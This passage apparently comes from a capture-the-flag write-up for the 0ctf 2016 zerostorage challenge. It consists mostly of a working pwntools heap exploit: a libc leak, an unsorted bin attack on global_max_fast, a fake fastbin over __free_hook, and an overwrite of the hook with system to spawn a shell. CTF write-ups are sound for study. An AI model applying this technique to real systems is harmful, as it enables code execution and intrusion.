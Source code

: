 ```
free_hook = libc + libc_bin.symbols['__free_hook']

log.info("Leak: " + hex(leak))
log.info("Libc: " + hex(libc))
log.info("Global_max_fast: " + hex(global_max_fast))
log.info("System: " + hex(system))

# Edit 2 to overwrite unsorted bin ptr, attack global_max_fast
edit(2, 0x20, "aaaaaaaa" + p64(global_max_fast-0x10) + "C"*0xf)

# /bin/sh to free later, insert triggers unsorted bin attack
insert(0x20, "/bin/sh\x00" + "D"*0x17) # 0

# Large fastbin, size appropriate for attack
merge(1, 1)                  # 3

# Fake fastbin over free hook
payload = p64(free_hook - 0x59)
payload += "A" * (0x1f7 - len(payload))

edit(3, 0x1f8, payload)

insert(0x1f8, "Q"*0x1f7)

# Overwrite free hook
payload2 = "\x00" * 0x49
payload2 += p64(system)
payload2 += "\x00" * (0x1f7 - len(payload2))

insert(0x1f8, payload2)       # 4

delete(0)

target.interactive()
```

I would like to give credit to this writeup for helping me solve an issue with the merging free affecting the fastbin size: https://stfwlg.github.io/archivers/2016\_0ctf-\_zerostorage\_%ED%92%80%EC%9D%B4

